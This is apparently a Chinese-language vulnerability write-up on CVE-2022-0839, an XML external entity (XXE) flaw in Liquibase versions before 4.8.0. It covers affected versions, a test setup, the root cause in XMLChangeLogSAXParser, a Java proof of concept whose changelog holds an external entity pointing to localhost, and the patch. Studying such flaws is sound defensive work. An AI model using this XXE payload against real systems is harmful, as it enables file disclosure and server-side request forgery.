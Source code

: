 - [CVE-2022-0839 Liquibase XXE 漏洞](#cve-2022-0839-liquibase-xxe-漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [XMLChangeLogSAXParser](#xmlchangelogsaxparser)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2022-0839 Liquibase XXE 漏洞
## 影响版本
Version < 4.8.0
## 环境搭建
```xml
        <dependency>
            <groupId>org.liquibase</groupId>
            <artifactId>liquibase-core</artifactId>
            <version>4.7.1</version>
        </dependency>
```
## 原理分析
### XMLChangeLogSAXParser
XMLChangeLogSAXParser解析日志使用了`SAXParser`进行解析,漏洞在于获取parser时并未设置安全Feature,直接将inputStream流带入parse进行解析导致XXE.
![](1.png)
## 漏洞复现
```java
import liquibase.changelog.ChangeLogParameters;
import liquibase.exception.ChangeLogParseException;
import liquibase.parser.core.xml.XMLChangeLogSAXParser;
import liquibase.sdk.resource.MockResourceAccessor;
import java.util.HashMap;


public class cve_2022_0839 {
    public static void main(String[] args) throws ChangeLogParseException {
        String INSECURE_XML= "<!DOCTYPE databaseChangeLog [\n" +
                "        <!ENTITY insecure SYSTEM \"http://127.0.0.1/\">\n" +
                "        ]>\n" +
                "\n" +
                "<databaseChangeLog xmlns=\"http://www.liquibase.org/xml/ns/dbchangelog\"\n" +
                "                   xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\n" +
                "                   xsi:schemaLocation=\"http://www.liquibase.org/xml/ns/dbchangelog\n" +
                "                      http://www.liquibase.org/xml/ns/dbchangelog/dbchangelog-4.6.xsd\">\n" +
                "\n" +
                "    <changeSet id=\"1\" author=\"example\">\n" +
                "        <output>&insecure;</output>\n" +
                "    </changeSet>\n" +
                "\n" +
                "</databaseChangeLog>\n" +
                "\"\"\"";
        XMLChangeLogSAXParser xmlChangeLogSAXParser = new XMLChangeLogSAXParser();
        HashMap hashMap = new HashMap<String, String>();
        hashMap.put("com/example/insecure.xml",INSECURE_XML);
        MockResourceAccessor  resourceAccessor = new MockResourceAccessor(hashMap);
        xmlChangeLogSAXParser.parse("com/example/insecure.xml", new ChangeLogParameters(),resourceAccessor);
            }
        }

```
![](2.jpg)
## 补丁
补上了setFeature.
![](2.png)
